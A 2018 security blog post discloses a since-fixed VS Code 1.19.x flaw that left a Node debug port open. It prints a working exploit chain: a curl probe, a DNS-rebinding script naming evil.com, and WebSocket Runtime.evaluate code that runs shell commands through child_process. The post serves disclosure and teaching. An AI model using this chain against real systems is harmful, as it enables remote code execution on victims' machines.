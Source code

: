 ```yaml
---
layout:	post
title:	"Visual Studio Code silently Fixed a Remote Code Execution Vulnerability"
date:	2018-03-16
show_excerpt: true
image: /img/2018-03-16-visual-studio-code-silently-fixed/p07rMuQGd-Hgf4u_NGH91Q.png
---
```


I occasionally noticed that Visual Studio Code was listening on a fixed TCP port 9333. After upgrading to 1.19.3, it's gone.

```
➜ ~ netstat -an | grep 9333
tcp4 0 0 127.0.0.1.9333 *.* LISTEN
```

Looks like it's a bug that affects VSCode 1.19.0~1.19.2. Extension process always run in debug mode, because of an accidentally added `--inspect` argument.

* [Make sure extension don't accidentally run in 'debug'-mode · Issue #39569 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/39569)
* [Clear — inspect* / — debug* arg when starting extension host · Issue #40443 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/40443)

Actually this is not just a bug. **It is exploitable.**

<!-- more -->

I guess he's found the same problem:

[Vulnerability in 1.19.x · Issue #42116 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/42116)

To reproduce the bug, download an older release:

* <https://vscode-update.azurewebsites.net/1.19.2/win32-x64/stable>
* <https://vscode-update.azurewebsites.net/1.19.2/darwin/stable>

Exploiting this port is quite simple. **Since it's a debug port you can absolutely inject arbitrary code into debuggee context**. Start Chrome browser an navigate to chrome://inspect

![Chrome's built-in javascript debugging tool](/img/2018-03-16-visual-studio-code-silently-fixed/C-3RYPLdCVdXfVA7soA53Q.png)

Click "Configure" and add localhost:9333 to the list:

![Add target](/img/2018-03-16-visual-studio-code-silently-fixed/E2noAEuWmwYbTW3mkyOluQ.png)

Now click inspect to inject javascript into VS Code process:

![Remote targets shown in Chrome](/img/2018-03-16-visual-studio-code-silently-fixed/uY1Ozt9Gw2lVHgTdDb121Q.png)

And profit!

![code execution in node.js](/img/2018-03-16-visual-studio-code-silently-fixed/p07rMuQGd-Hgf4u_NGH91Q.png)

To weaponize this, we need to interact with devtools protocol from a remote web page. The protocol is based on HTTP and WebSocket. Check out the spec here:

* <https://github.com/ChromeDevTools/devtools-protocol>
* <https://chromedevtools.github.io/devtools-protocol/>

First, get the session id from <http://127.0.0.1:9333/json/list>

```
➜ ~ curl -v localhost:9333/json -H "Host: dns.rebind"
* Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 9333 failed: Connection refused
* Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 9333 (#0)
> GET /json HTTP/1.1
> Host: dns.rebind
> User-Agent: curl/7.54.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: application/json; charset=UTF-8
< Cache-Control: no-cache
< Content-Length: 649
<
[ {
 "description": "node.js instance",
 "devtoolsFrontendUrl": "chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "faviconUrl": "<https://nodejs.org/static/favicon.ico>",
 "id": "c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "title": "/private/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/AppTranslocation/EE69BB42-2A16-45F3-BB98-F6639CB594B1/d/Visual Studio Code.app/Contents/Frameworks/Code Helper.app/Contents/MacOS/Code Helper",
 "type": "node",
 "url": "file://",
 "webSocketDebuggerUrl": "ws://127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f"
} ]
* Closing connection 0
```

See the webSocketDebuggerUrl? That's all we need to attach the debugger.

It's a problem to fetch response from cross origin webpage. [Tavis Ormandy](https://medium.com/u/a82703d95ec2) has already shown some cases through dns-rebinding: <https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=dns+rebinding&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids>

![A case shows that a local port can be access from remote web page](/img/2018-03-16-visual-studio-code-silently-fixed/gV1f6shbOrzgAeQMmADQXw.png)

So an attacker needs to setup a DNS server to alternatively resolve an malicious domain between 127.0.0.1 and the actual web content ip address, with a short TTL. First the browser access the exploit page, then wait for a timeout for the browser to invalidate the previous dns record, so we can bypass same origin policy to read from `evil.com:9333/json/list`, which is actually from localhost.

For those who are interested in DNS rebinding, check these out:

* <https://github.com/ctfs/write-ups-2016/tree/master/0ctf-2016/web/monkey-4>
* <https://lock.cmpxchg8b.com/rebinder.html>
* <https://github.com/lorenzog/dns-rebinding>

Some people asked how long does it take to alter the DNS to 127.0.0.1. During my experiment, I borrow the dns server from <https://lock.cmpxchg8b.com/rebinder.html> and set a 120s script timeout before `XMLHttpRequest` / `fetch`, and it just worked.

```js
function log(msg) {
  const pre = document.createElement('pre');
  pre.appendChild(document.createTextNode(msg));
  document.body.appendChild(pre);
}

const interval = 120 * 1000;
async function main() {
  let list;
  try {
    list = await fetch('/json').then(r => r.json());
  } catch(e) {
    // retry
    log('retry');
    return setTimeout(main, interval);
  }
  const item = list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return log('invalid response');
  log('url:' + item.webSocketDebuggerUrl);
  // exploit(url);
}
main()
```

Now talk to the WebSocket server to inject the 2nd stage payload.

WebSocket supports cross domain unless the server explicitly checks `Origin:` header upon connection. So communicating with `webSocketDebuggerUrl` does not require any additional dns trick, except that `https://` page can't connect to `ws://`. Finally, call  `Runtime.evaluate` to inject script.

Assume the WebSocket server url is __ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7__, run the following script in any (non-https) webpage to see a calculator:

```js
function exploit(url) {
  function nodejs() {
    const cmd = {
      darwin: 'open /Applications/Calculator.app',
      win32: 'calc',
      linux: 'xcalc',
    };
    process.mainModule.require('child_process').exec(cmd[process.platform])
  };
  const packet = {
    "id": 13371337,
    "method": "Runtime.evaluate",
    "params": {
      "expression": `(${nodejs})()`,
      "objectGroup": "console",
      "includeCommandLineAPI": true,
      "silent": false,
      "contextId": 1,
      "returnByValue": false,
      "generatePreview": true,
      "userGesture": true,
      "awaitPromise": false
    }
  };

  const ws = new WebSocket();
  ws.onopen = () => ws.send(JSON.stringify(packet));
  ws.onmessage = ({ data }) => {
    if (JSON.parse(data).id === 13371337)
      ws.close()
  };
  ws.onerror = err => console.error('failed to connect');
}
exploit('ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7')
```

Compared to [the recent Electron bug](https://medium.com/0xcc/electrons-bug-shellexecute-to-blame-cacb433d0d62), the later requires user interaction and only affects Windows. If you are on these versions, just upgrade. Anyways, the debugging utility will still be enabled if you manually launch VSCode command with `--inspect=[port]`. Better use an alternative random port than 9333 to avoid potential exploit.

P.S.

For any electron based desktop app, there's a `--remote-debugging-port` switch.

**Update 2018-03-30:**

Node.js has officially fixed the remote debugging protocol issue

[March 2018 Security Releases - Node.js](https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160)